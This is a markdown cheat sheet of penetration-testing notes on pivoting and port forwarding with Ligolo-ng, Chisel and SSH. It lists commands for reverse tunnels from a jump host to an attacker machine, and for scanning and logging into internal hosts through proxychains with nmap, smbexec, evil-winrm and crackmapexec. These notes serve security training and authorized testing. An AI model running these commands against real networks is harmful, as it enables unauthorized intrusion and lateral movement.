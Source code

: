 ## Pivoting for lateral movement (Ligolo-ng)
- https://0xdf.gitlab.io/2019/01/28/pwk-notes-tunneling-update1.html
- https://systemweakness.com/everything-about-pivoting-oscp-active-directory-lateral-movement-6ed34faa08a2
- Agent (Linux Jump host): `sudo wget https://github.com/nicocha30/ligolo-ng/releases/download/v0.4.4/ligolo-ng_agent_0.4.4_windows_amd64.zip`
- Agent (Windows Jump host):  `sudo wget https://github.com/nicocha30/ligolo-ng/releases/download/v0.4.4/ligolo-ng_proxy_0.4.4_windows_amd64.zip`
- Proxy (Kali): `sudo wget https://github.com/nicocha30/ligolo-ng/releases/download/v0.4.3/ligolo-ng_proxy_0.4.3_Linux_64bit.tar.gz`
- tar -xzvf ligolo-ng_agent_0.4.4_linux_amd64.tar.gz
- tar -xzvf ligolo-ng_proxy_0.4.4_linux_amd64.tar.gz
- https://www.calculator.net/ip-subnet-calculator.html
![image](https://github.com/user-attachments/assets/a69cb841-b3be-44da-ad11-2d0b86cb231b)


 ```bash
#Pre-pivoting set up on kali
**##Jumphost is 172.16.5.129 and connects to target 172.16.5.19**
$ sudo ip tuntap add user [your_username] mode tun ligolo
$ sudo ip link set ligolo up

@Attack Machine
./proxy -selfcert -laddr 0.0.0.0:9001

@Jump Host
./agent -connect <attack machine IP>:9001 -ignore-cert

@Attack Machine
#purpose: add a ip route to tell the router to send our packets to that internal network. 
#To add a route and access the internal network execute the command in your attack machine.
sudo ip route add 172.16.4.0/23 dev ligolo

@Attack Machine
#choosing and starting session
session
1
start

@Attack Machine
#open new CMD and RDP to target
rdesktop -u victor -p 'password' 172.16.5.19
```

- [Full guide](https://software-sinner.medium.com/how-to-tunnel-and-pivot-networks-using-ligolo-ng-cf828e59e740)
  
## Pivoting Using Chisel
- https://notes.benheater.com/books/network-pivoting/page/port-forwarding-with-chisel
- https://blog.mkiesel.ch/posts/oscp_pivoting/
- https://ap3x.github.io/posts/pivoting-with-chisel/ for multi level pivot

```bash
#On your attacking machine (192.168.60.200) setup a Chisel server with:
#PORT = port for the Chisel traffic
#socks5 = to setup a SOCKS5 proxy
#reverse = to tell Chisel to wait for a connection from a client
./chisel server --port 1080 --sock5 --reverse

#On your attacking machine edit the file /etc/proxychains4.conf #1080 is the sock5 port
#Chisel
#1080 is the default port of the Chisel reverse proxy
socks5 127.0.0.1 1080

#on windows jumphost, setup Chisel Client with:
#IP = The IP address of your Chisel server
#PORT = The port you set on your Chisel sever
#R:socks = enables the reverse SOCKS proxy
#max-retry-count 1 = to exit Chisel when you kill your server
#must be same port as chisel server
.\Chisel.exe client --max-retry-count 1 192.168.60.200:1080 R:socks

#You can now attack the third server (ex. 10.0.60.99 or any servers in 10.0.60.x domain) by adding proxychains -q before every command. The -q is for quiet mode since most attackers won’t need verbose proxy traffic
#The traffic flows into port 1080 on your machine and out on your jump host, which has established a connection back to your listener on the port you specified when executing chisel server
proxychains -q nmap -sC -sV 10.0.60.99
proxychains -q ssh user@10.0.60.99
proxychains -q mysql -u dbuser -h 10.0.60.99
proxychains -q impacket-smbexec domain\user: -target-ip  10.0.60.99
proxychains -q evil-winrm -i 10.0.60.99 -u 'domain\user' -p ''
proxychains -q xfreerdp /v:172.16.5.19 /u:victor /p:pass@123
proxychains crackmapexec smb 10.0.0.100 -u 'guest' -p ''

#or on attacker's kali, you can connect to the third server using 127.0.0.1 on web browser. If the web browser shows unable to connect, then add thehost name to /etc/hosts
```

## Port forwarding (used when there is firewall)
home-computer/port-80 ----> port-80/proxy-machine/port-21 ----> ftp-server
https://exploit-notes.hdks.org/exploit/network/port-forwarding/port-forwarding-with-chisel/
```bash
#Local Port Forwarding
# In remote machine
chisel server -p <listen-port>

# In local machine
chisel client <listen-ip>:<listen-port> <local-port>:<target-ip>:<target-port>
```

## Port forwarding using SSH
```
#forward all local port 9906 traffic to port 3306 on the remote database.example.com server, letting me point my desktop GUI to localhost (127.0.0.1:9906) and have it behave exactly as if I had exposed port 3306 on the remote server and connected directly to it.
$ ssh -f -N -L 9906:127.0.0.1:3306 coolio@database.example.com
```
